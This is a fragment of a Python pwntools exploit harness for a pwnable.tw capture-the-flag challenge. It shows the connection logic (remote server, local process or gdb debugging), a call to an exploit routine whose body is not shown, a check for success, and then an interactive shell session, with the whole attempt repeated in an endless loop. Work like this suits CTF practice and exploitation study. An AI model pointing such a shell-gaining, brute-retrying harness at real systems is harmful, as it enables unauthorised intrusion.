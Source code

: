 ```python
        conn = remote('chall.pwnable.tw', 10000)
    else:
        if not debug:
            conn = process(challenge_bin)
        else:
            #    b {entry}
            #    b *({entry}+55) # READ
            #    b *({entry}+60) # RET
            conn = gdb.debug(challenge_bin,
                """
                b *({entry}+60)
                continue
                """.format(entry=entry_point))

    exploit(conn)

       # Check for EOF
    try:
        conn.recv(timeout=0.5)
    except(EOFError):
        conn.close()
        log.failure("Failed to Exploit")
        return


    log.success("BOOM got it :)")
    conn.interactive(prompt="")
    sys.exit()

while True:
    throwing_it()
```

